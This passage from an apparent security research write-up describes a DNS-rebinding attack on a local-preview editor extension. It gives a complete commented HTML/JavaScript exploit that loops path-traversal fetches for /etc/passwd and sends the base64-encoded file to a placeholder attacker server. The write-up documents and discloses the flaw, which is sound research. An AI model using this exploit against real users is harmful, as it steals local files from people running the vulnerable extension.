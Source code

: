 (NOTE: If you want to reproduce this setup, ensure that running `host 7f000001.c0a80d80.rbndr.us` will alternate between the two IPs. This works flawlessly on my Linux machine, with `8.8.8.8` as the DNS server.)

To steal a victim’s local files, we need to make them browse to the `7f000001.c0a80d80.rbndr.us` URL, hoping that it will resolve to our server with the exploit. Then, our exploit page makes fetches with the path traversal attack on a loop until the browser makes a DNS request that resolves to the `127.0.0.1` IP; once it does so, we get the content of the sensitive file. Here is the commented exploit:
```html
<html>
<head></head>
<body>
    <h1>In the DNS Rebinding server</h1>
    <script>
        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        async function get_secret_file() {
            var success = false;

            // 1) trigger the path-traversal attack
            await fetch("/AAA?../../../../../../../../../etc/passwd?")
                .then((res) => {
                    if (!res.ok) {
                        throw new Error(`Fetch got code error ${res.status}`);
                    }
                    return res.text();
                })
                .then((leaked_file) => {
                    // 2.1) encode and send the file to the attacker server
                    const leaked_file_b64 = btoa(leaked_file);
                    fetch("http://<attacker-server>?q=" + leaked_file_b64);
                    success = true;
                })
                .catch((err) => {
                    // 2.2) We did not get the DNS record we wanted; try again
                    success = false;
                })

            return success;
        }

        async function exploit() {
            var success = false;
            // 3) Wait until the browser uses the DNS record of 127.0.0.1 and fetches the secret file
            while (!success) {
                success = await get_secret_file();
                await sleep(500);
            }
        }

        exploit();
    </script>
</body>
</html>
```
<p class="figure-caption">Exploit that exfiltrates local files when a user visits a malicious web page while the Live Preview extension is running in the background</p>
